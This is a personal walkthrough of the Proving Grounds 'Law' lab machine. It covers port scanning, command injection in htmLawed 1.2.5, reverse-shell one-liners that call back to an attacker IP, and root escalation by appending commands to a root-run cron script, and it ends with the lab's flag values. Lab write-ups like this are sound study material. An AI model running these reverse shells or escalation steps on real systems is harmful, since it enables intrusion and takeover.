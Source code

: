 ```yaml
---
Date: 2024-11-10
Platform: PG-Practice
Category: Linux
Difficulty: Intermediate
Status: Complete
IP: 192.168.201.190
Writeup: https://medium.com/@ardian.danny/oscp-practice-series-47-proving-grounds-law-c2966e3ab8ba
---
```

# Law
This one was another absolute slog. Identifying exploits for htmLawed v1.2.5 was very straightforward, and I got a little excited when I saw an RCE exploit had been found this year (2024). 

Running the exploit didn't work though, so I started researching the vulnerability further while trying to avoid the walkthroughs. I found the [Mayfly article on the CVE](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) which added a lot of extra context, and checking the walkthrough helped me realise why the Burpsuite request wasn't working properly (the request was to a non-existent page, and needed to be changed to `/`). 

Even with that though, it still look a remarkably long time to get the reverse shell setup - running BurpSuite `intercept` and modifying the request *BEFORE* it went to the target was the trick, rather than trying to use `repeater` to modify requests already sent.

With a dumb shell established, it was a surprise to lose it the moment I tried to use python to upgrade to a bash shell - going forward I might run `/usr/bin/script -qc /bin/bash /dev/null` first as it's more likely to give me the shell I'm after without breaking things.

PrivEsc turned out to be easier and more complicated than expected. Easier in that the `cleanup.sh` script was identified as interesting early on, but harder than expected when it came to testing the shell to see who was running it, and then how to modify it further when it came to switching to root - all of which I leaned on the walkthrough for. Adding the `curl` command was one step, but using `nc` to send the `id` to the listening port was very cool and clever. Changing the bash permissions was genius too, so definitely need to keep that set of commands handy for the next time there's a user script being run regularly by `root`.

# Resolution summary
- Ran Nmap to identify ports `22` & `80`
- Visited http (`80`) & identified htmLawed v1.2.5
- Researched vulnerability and attempted manual exploit
- Used Burpsuite to fix error with request and achieved reverse shell
- Identified script owned by `www-data` user but being regularly run by `root`
- Added command to change permissions to `/bin/bash`
- Used `bash -p` to switch to `root`
## Improved skills
- Burpsuite forwarding and request modification
- Identifying user scripts being regularly run by `root`
## Used tools
- nmap
- gobuster
- burpsuite
- python3

---
# Information Gathering
Scanned all TCP ports:
```bash
sudo nmap -sC -sV -oN Law.nmap 192.168.201.190 -v
```

Enumerated open TCP ports:
```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 c9:c3:da:15:28:3b:f1:f8:9a:36:df:4d:36:6b:a7:44 (RSA)
|   256 26:03:2b:f6:da:90:1d:1b:ec:8d:8f:8d:1e:7e:3d:6b (ECDSA)
|_  256 fb:43:b2:b0:19:2f:d3:f6:bc:aa:60:67:ab:c1:af:37 (ED25519)
80/tcp open  http    Apache httpd 2.4.56 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.56 (Debian)
|_http-title: htmLawed (1.2.5) test
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

---
# Enumeration
## Port 22 - SSH (OpenSSH 7.9p1)
No enumeration conducted
## Port 80 - HTTP (Apache)
- Navigated to `http://192.168.201.190:80` and identified `htmLawed v1.2.5`
![[Pasted image 20241010160126.png]]
	- `htmLawed v1.2.5` is vulnerable to command injection [CVE-202-35914](https://nvd.nist.gov/vuln/detail/cve-2022-35914)
- Ran `gobuster dir -u http://192.168.201.190 -w /usr/share/dirb/wordlists/big.txt` to identify any web directories
![[Pasted image 20241010160311.png]]
- Ran `gobuster dir -u http://192.168.201.190 -w /usr/share/dirb/wordlists/big.txt -x php,html,htm,txt` to identify any files
![[Pasted image 20241010162339.png]]

---
# Exploitation
## Command Injection
- Found potential exploit `52023` on [ExploitDB](https://www.exploit-db.com/exploits/52023)
- Copied exploit and ran `./52023.sh -u http://192.168.201.190 -c id` for no output
![[Pasted image 20241010162723.png]]
- [Further investigated vulnerability](https://mayfly277.github.io/posts/GLPI-htmlawed-CVE-2022-35914/) and found it might be executed from the target website by changing `hook` in settings to `exec` with `id` to test command execution
![[Pasted image 20241010163008.png]]
- Processed request and recieved `404 Not Found`
![[Pasted image 20241010163050.png]]
- Checked `BurpSuite` proxy history and found request was going to `htmLawedTest.php`.
![[Pasted image 20241010163218.png]]
- Sent request to `repeater` and modified POST request from `/htmLawedTest.php` to `/` then resent request with `id` and hook set to `exec`
![[Pasted image 20241010163728.png]]
- Ran `nc -nvlp 4444` to setup Netcat listener, then replaced `id` with `/bin/sh -i >& /dev/tcp/192.168.45.215/4444 0>&1` to attempt reverse shell
![[Pasted image 20241010170213.png]]
- Reattempted with `nc 192.168.45.215 4444 -e /bin/sh` and successfully caught reverse shell for initial access
![[Pasted image 20241010170324.png]]
---
# Lateral Movement to user
## Local Enumeration
- Attempted to use `python3` to upgrade shell but broke reverse shell and had to restart netcat listener
![[Pasted image 20241010171239.png]]
- Repeated earlier steps to restablish initial access, then checked for python to find it's not installed. Ran `/usr/bin/script -qc /bin/bash /dev/null` instead to achieve full shell, then navigated to home directory of `www-data` user to print `local.txt`
![[Pasted image 20241010171555.png]]
- Ran `find / -perm -u=s -type f 2>/dev/null -printf "%f\n"` to find binaries with potential SUID bit set
![[Pasted image 20241010171912.png]]

---
# Privilege Escalation
## Local Enumeration
- Ran `cat /etc/passwd` to identify any other users
![[Pasted image 20241010171727.png]]
- Uploaded and ran `suider.sh` to find potential SUID exploits
![[Pasted image 20241010173058.png]]
- Uploaded and ran `linpeas.sh` to find potential Privilege Escalations
![[Pasted image 20241010180027.png]]
- Found `cleanup.sh` in `www-data` home directory
![[Pasted image 20241010175915.png]]
- Ran `cat /var/www/cleanup.sh` to view `cleanup.sh`
![[Pasted image 20241010180145.png]]
## Privilege Escalation vector
- Ran `nc -nvlp 8081` to setup netcat listener on 8081, then ran `echo 'id | nc 192.168.45.215 8081' >> cleanup.sh` to identify `cleanup.sh` is being regularly executed by `root`
![[Pasted image 20241010182437.png]]
- Ran `echo "chmod +s /bin/bash" >> cleanup.sh` to use `root` to change `/bin/bash` permissions, and ran `bash -p` until `cleanup.sh` was executed by `root` and user switched to `root`
![[Pasted image 20241010183151.png]]
- Ran `cat /root/proof.txt` to print `proof.txt` flag
![[Pasted image 20241010183300.png]]
---
# Trophy & Loot
`local.txt` = `e4dc76bd63849b739fd9741f9bda6995`
`root.txt` = `b9d98ca2768e55aba770c7fb1f730323`